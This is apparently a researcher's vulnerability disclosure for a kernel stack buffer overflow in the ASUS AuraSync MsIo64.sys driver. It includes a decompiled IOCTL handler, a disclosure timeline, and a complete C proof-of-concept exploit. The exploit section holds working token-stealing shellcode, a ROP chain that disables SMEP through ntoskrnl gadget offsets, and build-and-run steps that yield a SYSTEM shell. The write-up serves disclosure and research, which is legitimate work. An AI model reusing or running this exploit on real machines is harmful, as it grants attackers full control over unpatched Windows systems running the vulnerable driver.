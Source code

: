 ```yaml
---
title : "ASUS AuraSync Kernel Stack Based Buffer Overflow Local Privilege Escalation"
excerpt: "ASUS AuraSync Kernel Stack Based Buffer Overflow Local Privilege Escalation"

categories:
    - "0-day"
tags:
    - [Mitre, ASUS]
---
```


## 0x01: Details

- Title : ASUS AuraSync Kernel Stack Based Buffer Overflow Local Privilege Escalation
- CVE ID :
- Advisory Published: 2022/08/10
- Advisory URL : [https://www.asus.com/content/ASUS-Product-Security-Advisory/](https://www.asus.com/content/ASUS-Product-Security-Advisory/)
- Vender URL : [https://www.asus.com/](https://www.asus.com/)

## 0x02: Test Environment

OS : windows 10 pro 64-bit 21H2 (build 19044.1826)

ASUS AuraSync : 1.07.79_V2.2

## 0x03: Vulerability details

The kernel driver MsIo64.sys is included in Asus AuraSync 1.07.79. A stack-based buffer overflow exists in this kernel driver IOCTL dispatch function.

## 0x04: Techincal description

When you download ASUS AURA SYNC software, MsIo64.sys driver is installed together. In the IOCTL code of this driver, the memmove function is called at 0x80102040, but there is no path check at this time, so a stack based buffer overflow vulnerability may occur.

```c
__int64 __fastcall sub_113F0(__int64 a1, IRP *a2) {
	ULONG_PTR Src[2]; // [rsp+30h] [rbp-48h]
	...
	switch ( LowPart )
	{
		case 0x80102040:
		  DbgPrint("IOCTL_MSIO_MAPPHYSTOLIN");
		  if ( !(_DWORD)Options )
		    goto LABEL_9;
		  memmove(Src, MasterIrp, Options);
		  v11 = sub_FFFFF80375F91090((PHYSICAL_ADDRESS)Src[1], Src[0], &BaseAddress, &Handle, &Object);
		  if ( v11 >= 0 )
		  {
		    memmove(MasterIrp, Src, Options);
		    a2->IoStatus.Information = Options;
		  }
		  a2->IoStatus.Status = v11;
		  break;
	...
}
```

MasterIrp is lpInBuffer as an argument when calling the DeviceIoControl function. Since lpInBuffer is moved to Src, and the length is not checked, a rop attack is possible by changing the dispatch function return address.

## 0x05: Proof-of-Concept (PoC)

```c
#include <stdio.h>
#include <string>
#include <Windows.h>
#include <Psapi.h>
#define IOCTL_CODE 0x80102040

BYTE shellcode_[] =
"\x65\x48\x8B\x14\x25\x88\x01\x00\x00"      // mov rdx, gs:[188h]       ; _ETHREAD
"\x4C\x8B\x82\x20\x02\x00\x00"              // mov r8, [rdx + 220h]     ; _EPROCESS
"\x4D\x8B\x88\x48\x04\x00\x00"              // mov r9, [r8 + 448h]      ; ActiveProcessLinks
"\x49\x8B\x09"                              // mov rcx, [r9]            

// GetProcessByPid
"\x48\x8B\x51\xF8"                          // mov rdx, [rcx - 8]       ; UniqueProcessId
"\x48\x83\xFA\x04"                          // cmp rdx, 4               ; PID 4 SYSTEM process
"\x74\x05"                                  // jz found_system          ; SYSTEM token
"\x48\x8B\x09"                              // mov rcx, [rcx]           ; _LIST_ENTRY Flink
"\xEB\xF1"                                  // jmp find_system_proc     ; While
// FoundGetProcess

"\x48\x8B\x41\x70"                          // mov rax, [rcx + 70h]     ; Get Token
"\x24\xF0"                                  // and al, 0f0h             
// FindProcess

"\x48\x8B\x51\xF8"                          // mov rdx, [rcx-8]         ; UniqueProcessId
"\x48\x81\xFA\x00\x00\x00\x00"              // cmp rdx, 0d54h           ; if UniqueProcessId == CurrentPid
"\x74\x05"                                  // jz found_cmd             ; True - jump FoundProcess
"\x48\x8B\x09"                              // mov rcx, [rcx]           ; False - next entry
"\xEB\xEE"                                  // jmp find_cmd             ; jump FindProcess
// FoundProcess

"\x48\x89\x41\x70"                          // mov [rcx+70h], rax       ; Overwrite SYSTEM token
"\x48\x31\xc0"                              // xor rax rax 
"\x48\x31\xc9"                              // xor rcx rcx              
"\x48\x31\xf6"                              // xor rsi,rsi
"\x48\x31\xff"                              // xor rdi, rdi
"\x4D\x31\xC0"                              // xor r8, r8
"\x48\xc7\xc1\xf8\x06\x35\x00"              // mov rcx, 0x3506f8        ; original cr4
"\xc3";                                     // ret

LPVOID GetBaseAddr(const char* drvname) {
    LPVOID drivers[1024];
    DWORD cbNeeded;
    int nDrivers, i = 0;

    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
        char szDrivers[1024];
        nDrivers = cbNeeded / sizeof(drivers[0]);
        for (i = 0; i < nDrivers; i++) {
            if (GetDeviceDriverBaseNameA(drivers[i], (LPSTR)szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
                if (strcmp(szDrivers, drvname) == 0) {
                    return drivers[i];
                }
            }
        }
    }
    return 0;
}

void exploit() {
    DWORD pid = GetCurrentProcessId();
    INT64 ntoskrnl = (INT64)GetBaseAddr("ntoskrnl.exe");
    HANDLE hDevice;

    hDevice = CreateFileA("\\\\.\\MsIo", FILE_READ_ACCESS | FILE_WRITE_ACCESS, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL, NULL);

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Error device open %d\n", GetLastError());
        exit(1);
    }
    printf("[+] Success device open\n");

    // Allocate executable memory
    BYTE* shellcode = (BYTE*)VirtualAlloc(NULL, sizeof(shellcode_), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(shellcode, shellcode_, sizeof(shellcode_));
    memcpy(shellcode + 54, &pid, sizeof(pid));              // Change the pid of the shellcode

    INT64 disable_SMEP = 0x250ef8;                          // cr4 value, disable SMEP
    INT64 enable_SMEP = 0x350ef8;                           // cr4 value, enable SMEP
    INT64 pop_rcx = ntoskrnl + 0x314f03;                    // pop rcx; ret
    INT64 mov_cr4 = ntoskrnl + 0x9a4217;                    // mov cr4, rcx; ret
    INT64 wbinvd = ntoskrnl + 0x37fb50;                     // wbinvd; ret
    INT64 ret = pop_rcx + 1;                                // ret

    printf("[+] SMEP disabled\n");

    BYTE input[136] = { 0, };
    memset(input, 0x90, 72);                        // dummy
    memcpy(input + 72, &pop_rcx, 8);                // pop rcx
    memcpy(input + 80, &disable_SMEP, 8);           // disable SMEP value
    memcpy(input + 88, &mov_cr4, 8);                // mov cr4, rcx
    memcpy(input + 96, &wbinvd, 8);                 // wbinvd; ret
    memcpy(input + 104, &shellcode, 8);             // shellcode
    memcpy(input + 112, &mov_cr4, 8);               // mov cr4, rcx 
    memcpy(input + 120, &ret, 8);                   // restore rsp(stack)
    memcpy(input + 128, &ret, 8);                   // restore rsp(stack)

    DWORD temp;
    if (!DeviceIoControl(hDevice, IOCTL_CODE, input, sizeof(input), NULL, 0, &temp, NULL)) {
        printf("[-] Failed DeviceIoControl %d\n", GetLastError());
        exit(1);
    }

    printf("[+] SMEP enabled\n");
    printf("[+] Sucesss execute shellcode\n");
    printf("[+] Success Get SYSTEM shell\n");
    printf("\n\n");
    system("cmd");
}

int main() {
    exploit();
    return 0;
}
```

1. Use Visual Studio 2019
2. Compile with x64 release mode
3. Execute the compiled file

## 0x06: Affected Products

This vulnerability affects the following product:

- ASUS AuraSync ≤ 1.07.79_V2.2

## 0x07: Credit information

HeeChan Kim (@heegong123) of TeamH4C

## 0x08: TimeLine

- 2022/07/28 : First contact via E-Mail ([security@asus.com](mailto:security@asus.com)) to negotiate a security channel;
- 2022/08/01 : I received a call from Asus Security to analyze the vulnerability.
- 2022/08/09 : I was provided with a patched version of the vulnerability.
- 2022/09/18 : My name is inducted into the Asus Hall of Fame.
- 2022/10/11 : The latest version update notice has been posted in the ASUS Latest security updates.

## 0x09: Reference

- [https://www.asus.com/campaign/aura/us/download.php](https://www.asus.com/campaign/aura/us/download.php)
- [https://www.asus.com/content/ASUS-Product-Security-Advisory/](https://www.asus.com/content/ASUS-Product-Security-Advisory/)